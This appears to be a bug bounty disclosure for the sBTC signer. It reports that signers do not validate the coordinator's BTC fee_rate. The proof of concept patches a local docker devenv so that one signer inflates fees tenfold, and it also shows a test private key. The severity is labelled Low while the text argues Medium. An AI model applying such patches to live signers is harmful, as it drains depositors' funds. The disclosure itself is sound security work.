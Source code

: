 # #38460 \[BC-Low] The coordinator can set a higher BTC tx fee than the current network to make users to pay more fees to the BTC miner

**Submitted on Jan 3rd 2025 at 22:44:27 UTC by @f4lc0n for** [**Attackathon | Stacks**](https://immunefi.com/audit-competition/stacks-attackathon-1)

* **Report ID:** #38460
* **Report Type:** Blockchain/DLT
* **Report severity:** Low
* **Target:** https://github.com/stacks-network/sbtc/tree/immunefi\_attackaton\_0.9/signer
* **Impacts:**
  * Direct loss of funds

## Description

## Brief/Intro

When a signer acts as a coordinator, he will initiate BTC transactions to transfer the deposited BTC to the signer's multi-wallet.

The problem now is that signers do not check the `fee_rate` of the BTC transaction set by the coordinator. Therefore, a malicious signer can set a higher `fee_rate` to make users pay more fees.

## Vulnerability Details

The `signer/src/bitcoin/validation.rs::construct_package_sighashes` code is as follows.

```rust
    pub async fn construct_package_sighashes<C>(
        &self,
        ctx: &C,
        btc_ctx: &BitcoinTxContext,
    ) -> Result<Vec<BitcoinTxValidationData>, Error>
    where
        C: Context + Send + Sync,
    {
        let cache = self.fetch_all_reports(&ctx.get_storage(), btc_ctx).await?;

        self.pre_validation(ctx, &cache).await?;

        let signer_utxo = ctx
            .get_storage()
            .get_signer_utxo(&btc_ctx.chain_tip)
            .await?
            .ok_or(Error::MissingSignerUtxo)?;

        let mut signer_state = SignerBtcState {
            fee_rate: self.fee_rate,
            utxo: signer_utxo,
            public_key: bitcoin::XOnlyPublicKey::from(btc_ctx.aggregate_key),
            last_fees: self.last_fees,
            magic_bytes: [b'T', b'3'], //TODO(#472): Use the correct magic bytes.
        };
        let mut outputs = Vec::new();

        for requests in self.request_package.iter() {
            let (output, new_signer_state) = self
                .construct_tx_sighashes(ctx, btc_ctx, requests, signer_state, &cache)
                .await?;
            signer_state = new_signer_state;
            outputs.push(output);
        }

        Ok(outputs)
    }
```

It directly uses the `fee_rate` passed by the coordinator without checking it. Then the coordinator can send a `fee_rate` higher than the current main network to make users to consume more fees.

## Fix

Check the `fee_rate` provided by the coordinator to make sure it is not much higher than the current mainnet.

## Impact Details

Users usually set a transaction fee higher than the current mainnet to ensure that their deposits are executed. The remaining transaction fees will normally be returned to the user in the form of sBTC. Attackers can use this bug to make users lose this part of the redundant transaction fees.

However, the user's loss is limited, so I think the bug is **Medium**.

## References

None

## Proof of Concept

## Proof of Concept

1. Base on: https://github.com/stacks-network/sbtc/releases/tag/0.0.9-rc4
2.  Patch `signer/src/config/mod.rs`, add attacker flag config

    ```diff
         /// The minimum bitcoin block height for which the sbtc signers will
         /// backfill bitcoin blocks to.
         pub sbtc_bitcoin_start_height: Option<u64>,
    +    /// @audit;
    +    pub audit_this_signer_is_attacker: Option<bool>,
     }
     
     impl Validatable for SignerConfig {
    ```
3.  Patch `signer/src/main.rs`, load attacker flag

    ```diff
         );
     
         // Load the configuration file and/or environment variables.
    -    let settings = Settings::new(args.config)?;
    +    let mut settings = Settings::new(args.config)?;
    +    std::thread::sleep(std::time::Duration::from_millis(2000)); // wait for the `docker logs` command
    +    settings.signer.audit_this_signer_is_attacker = match std::env::var("AUDIT_THIS_SIGNER_IS_ATTACKER") {
    +        Ok(value) => Some(value.parse::<bool>().unwrap()),
    +        _ => Some(false),
    +    };
    +    tracing::info!("@audit; audit_this_signer_is_attacker: {:?}", settings.signer.audit_this_signer_is_attacker);
         signer::metrics::setup_metrics(settings.signer.prometheus_exporter_endpoint);
     
         // Open a connection to the signer db.
    ```
4.  Patch `docker/docker-compose.yml`, add attacker flag

    ```diff
           - postgres-3
         environment:
           <<: *sbtc-signer-environment
    +      AUDIT_THIS_SIGNER_IS_ATTACKER: true
           SIGNER_SIGNER__DB_ENDPOINT: postgresql://postgres:postgres@postgres-3:5432/signer
           SIGNER_SIGNER__PRIVATE_KEY: 3ec0ca5770a356d6cd1a9bfcbf6cd151eb1bd85c388cc00648ec4ef5853fdb7401
           SIGNER_SIGNER__P2P__SEEDS: tcp://sbtc-signer-1:4122,tcp://sbtc-signer-2:4122
    ```
5.  Patch `signer/src/transaction_coordinator.rs`, add attack action. It will set 10x `fee_rate`.

    ```diff
             let pending_requests_fut =
                 self.get_pending_requests(bitcoin_chain_tip, aggregate_key, signer_public_keys);
     
             // If Self::get_pending_requests returns Ok(None) then there are no
             // requests to respond to, so let's just exit.
    -        let Some(pending_requests) = pending_requests_fut.await? else {
    +        let Some(mut pending_requests) = pending_requests_fut.await? else {
                 tracing::debug!("no requests to handle, exiting");
                 return Ok(());
             };
    +        // @audit; begin
    +        let this_signer_is_attacker = self.context.config().signer.audit_this_signer_is_attacker.is_some_and(|x| x);
    +        if this_signer_is_attacker {
    +            pending_requests.signer_state.fee_rate *= 10 as f64;
    +        }
    +        // @audit; end
             tracing::debug!(
                 num_deposits = %pending_requests.deposits.len(),
                 num_withdrawals = pending_requests.withdrawals.len(),
                 "fetched requests"
             );
             // Construct the transaction package and store it in the database.
    ```
6.  Run docker

    ```sh
    make devenv-up
    make devenv-down
    docker compose -f docker/docker-compose.yml --profile default --profile bitcoin-mempool --profile sbtc-signer build
    make devenv-up
    ```
7. Add [this code](https://gist.github.com/al-f4lc0n/6befe01b89669cfb756cf747d7cf030d) to `signer/src/bin/poc9.rs`
8.  Patch `signer/Cargo.toml`, add `poc9` bin

    ```diff
    +[[bin]]
    +name = "poc9"
    +path = "src/bin/poc9.rs"
    ```
9.  Waiting for the sBTC contract to be deployed. Then run the `poc9` tool. It will send 40 BTC to the signers BTC address and trigger deposits every 10 seconds.

    ```sh
    cargo run -p signer --bin poc9
    ```
10. Wait until the trigger the coordinator is _sbtc-signer-3_.
11. In [BTC explorer](http://localhost:8083/), you will find that the transaction initiated by _sbtc-signer-3_ consumes more transaction fees (x10) than other transactions.
